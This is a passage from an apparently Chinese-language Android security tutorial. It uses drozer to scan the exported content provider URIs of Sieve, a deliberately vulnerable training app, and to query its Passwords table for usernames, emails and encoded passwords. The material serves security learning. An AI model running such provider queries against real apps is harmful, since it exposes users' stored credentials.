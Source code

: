 ```
    Write Permission: null
    Content Provider: com.mwr.example.sieve.FileBackupProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
```

#### 扫描uri
dz> run scanner.provider.finduris -a com.mwr.example.sieve
```
Scanning com.mwr.example.sieve...
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider/ Unable to Query  content://com.mwr.example.sieve.DBContentProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords/
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Keys/
Unable to Query  content://com.mwr.example.sieve.FileBackupProvider
Able to Query    content://com.mwr.example.sieve.DBContentProvider/Passwords
Unable to Query  content://com.mwr.example.sieve.DBContentProvider/Keys

Accessible content URIs:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

SQL语句大家都很熟悉，一个常见的select语句如下
```
select username,password from users where username="admin";
```
安卓的content provider也是类似的思路，如下所示
```
select projection from Uri where selection;
```
所以上面扫描Uri的过程，就是扫描目标app提供的表的过程。每个Uri可以理解为一个数据库的表名。

通过drozer直接查看数据库信息，如下
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/
| _id | service | username | password                                          | email                 |
| 1   | test    | kafroc   | cit/yTZ7HyCecb+GN7uFTM0NpbJKo5/7 (Base64-encoded) | kafrocyang@gmail.com  |
| 2   | temp    | xxoo     | jlqSHWQCIxaecb+GN7uFTM0NpbJKo5/7 (Base64-encoded) | xxoo@xxoo.com         |
```

接下来通过projection指定列为username和password，如下所示
```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "username,password"
| username | password                                          |
| kafroc   | cit/yTZ7HyCecb+GN7uFTM0NpbJKo5/7 (Base64-encoded) |
| xxoo     | jlqSHWQCIxaecb+GN7uFTM0NpbJKo5/7 (Base64-encoded) |
```
